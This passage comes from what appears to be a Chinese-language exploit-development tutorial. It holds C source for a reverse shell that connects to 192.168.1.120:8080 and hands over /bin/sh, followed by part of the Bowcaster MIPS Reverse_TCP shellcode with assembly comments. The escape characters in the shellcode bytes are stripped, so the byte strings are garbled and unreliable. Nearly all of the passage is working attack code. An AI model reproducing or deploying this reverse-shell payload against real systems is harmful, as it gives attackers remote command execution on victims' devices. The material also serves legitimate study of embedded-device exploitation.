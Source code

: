 请注意：本来我已经打算自己去写Shellcode，但是我发现有一个名为Bowcaster的项目，并且它有现成的Shellcode。然而，为了展示这个过程，我会将C代码独立出来。

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;netinet/in.h&gt;

int main(void) `{`
    int sockfd;
    int lportno = 8080;    // listener port
    struct sockaddr_in serv_addr;
    char *const params[] = `{`"/bin/sh",NULL`}`;
    char *const environ[] = `{`NULL`}`;

    sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    serv_addr.sin_family = AF_INET; // 2
    serv_addr.sin_addr.s_addr = inet_addr("192.168.1.120"); // RHOST
    serv_addr.sin_port = htons(lportno);
    connect(sockfd, (struct sockaddr *) &amp;serv_addr, 16);

    // redirect stdout and stderr
    dup2(sockfd,0); // stdin
    dup2(0,1); // stdout
    dup2(0,2); // stderr
    execve("/bin/sh",params,environ);
`}`
```

如果我们查看Bowcaster Reverse_TCP的Shellcode，会发现上面的C代码和Bowcaster的Shellcode是相同的。

```
shellcode = string.join([
        "xfaxffx0fx24", # li    t7,-6
        "x27x78xe0x01", # nor   t7,t7,zero
        "xfdxffxe4x21", # addi  a0,t7,-3
        "xfdxffxe5x21", # addi  a1,t7,-3
        "xffxffx06x28", # slti  a2,zero,-1

    # Socket SYSCall
        "x57x10x02x24", # li    v0,4183
        "x0cx01x01x01", # syscall   0x40404

        "xffxffxa2xaf", # sw    v0,-1(sp)
        "xffxffxa4x8f", # lw    a0,-1(sp)
        "xfdxffx0fx3c", # lui   t7,0xfffd
        "x27x78xe0x01", # nor   t7,t7,zero
        "xe0xffxafxaf", # sw    t7,-32(sp)

    # Connect back port 8080
        "x1fx90x0ex3c", # lui t6,0x901f
        "x1fx90xcex35", # ori t6,t6,0x901f
        "xe4xffxaexaf", # sw    t6,-28(sp)

    # IP Address
        IP_3+IP_4+"x0ex3c",   # lui       t6,&lt;ip&gt;
        IP_1+IP_2+"xcex35",   # ori       t6,t6,&lt;ip&gt;

        "xe6xffxaexaf", # sw    t6,-26(sp)
        "xe2xffxa5x27", # addiu a1,sp,-30
        "xefxffx0cx24", # li    t4,-17
        "x27x30x80x01", # nor   a2,t4,zero
```